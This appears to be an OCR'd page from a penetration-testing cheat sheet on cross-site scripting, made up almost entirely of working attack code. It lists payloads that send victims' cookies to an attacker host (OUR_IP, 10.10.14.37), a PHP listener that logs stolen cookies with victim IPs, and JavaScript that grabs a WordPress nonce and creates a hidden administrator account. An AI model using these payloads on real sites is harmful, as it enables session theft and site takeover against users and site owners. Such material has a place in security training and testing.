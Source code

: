     # Possible Payloads
    document.location=&#39;http://OUR_IP/index.php?c=&#39;+document.cookie;
    or
    new Image().src=&#39;http://OUR_IP/index.php?c=&#39;+document.cookie;
    
    # Access the Host
    <script src=http://OUR_IP>/script.js</script>
    

- **Option 2**:

    # Payload
    <img src=x onerror=fetch(&#39;http://10.10.14.37/&#39;+document.cookie);>
    
    # PHP Server Code
    <?php
    if (isset($_GET[&#39;c&#39;])) {
        $list = explode(";", $_GET[&#39;c&#39;]);
        foreach ($list as $key => $value) {
            $cookie = urldecode($value);
            $file = fopen("cookies.txt", "a+");
            fputs($file, "Victim IP: {$_SERVER[&#39;REMOTE_ADDR&#39;]} | Cookie: {$cookie}\n");
            fclose($file);
        }
    }
    ?>
    

#### 3.2.6 Wordpress HttpOnly Cookie (Visitor Plugin)
              

1. **Gather WordPress Nonce**: to attack with a HttpOnly cookie on WordPress: We need to
                  create a Js function that fetches the nonce which is a server generated token to prevent CSRF attacks.
                

    var request = new XMLHttpRequest();
    var targetURL = "/wp-admin/user-new.php";
    var regex = /name="([^"]*?)"/g;
    request.open("GET", targetURL, false);
    request.send();
    var match = regex.exec(request.responseText);
    var nonce = match[1];
    

1. **Create New WordPress Admin Account**

    var params = "action=createuser&_wpnonce_create-user=" + nonce + "&user_login=newadmin&email=newadmin@example.com&pass1=newpassword&pass2=newpassword&role=administrator";
    var request = new XMLHttpRequest();
    request.open("POST", targetURL, true);
    request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    request.send(params);
    